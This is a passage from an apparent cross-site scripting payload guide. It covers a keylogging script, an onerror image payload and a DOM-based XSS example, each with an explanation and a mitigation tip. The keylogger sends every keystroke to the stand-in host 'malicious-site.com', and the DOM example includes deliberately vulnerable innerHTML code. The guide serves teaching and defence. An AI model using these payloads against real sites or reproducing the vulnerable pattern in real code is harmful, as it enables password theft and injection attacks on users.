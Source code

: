 **Mitigation Tip:** Implement content security policies and validate input to prevent redirects.

### 4. Keylogging
**Payload:**
```html
<script>
  document.onkeypress = function(e) {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://malicious-site.com/log?key=' + e.key, true);
    xhr.send();
  };
</script>
```
**Explanation:** This script sets up an event listener that triggers whenever a key is pressed. Each keypress is sent to an attacker’s server, allowing them to log user input, including passwords or sensitive data.

**Mitigation Tip:** Use CSP to control which scripts can run and sanitize user input.

### 5. JavaScript Payload with Event Attributes
**Payload:**
```html
<img src="" onerror="alert('XSS')" />
```
**Explanation:** This payload leverages the `onerror` event attribute, which executes when an error occurs (e.g., loading an empty image source). The attribute runs a JavaScript `alert()` function, demonstrating the vulnerability.

**Use Case:** Useful for testing non-standard injection vectors like image attributes.

### 6. DOM-Based XSS Example
**Vulnerable Code:**
```javascript
// JavaScript code
var userInput = document.location.hash;
document.body.innerHTML = '<div>' + userInput + '</div>';
```
**Payload:**
```html
http://victim-site.com#<script>alert('XSS')</script>
```
**Explanation:** In DOM-Based XSS, the vulnerability is in the client-side script that dynamically updates the page’s content. The example shows a script inserting unvalidated user input into `innerHTML`, allowing arbitrary JavaScript execution.

**Mitigation Tip:** Avoid `innerHTML` for inserting user content; use `textContent` or `innerText`.

## Mitigation Strategies
1. **Input Sanitization**: Validate and sanitize all user inputs to ensure they don’t contain executable code.
2. **Output Encoding**: Encode data before displaying it on the web page (e.g., use HTML entity encoding).
3. **Content Security Policy (CSP)**: Implement a strong CSP header to restrict the types of scripts that can run.
4. **Avoid Dangerous Methods**: Refrain from using `innerHTML`, `document.write`, or similar methods. Use `textContent` instead.
5. **HTTPOnly Cookies**: Set cookies to `HTTPOnly` so that JavaScript cannot access them directly.
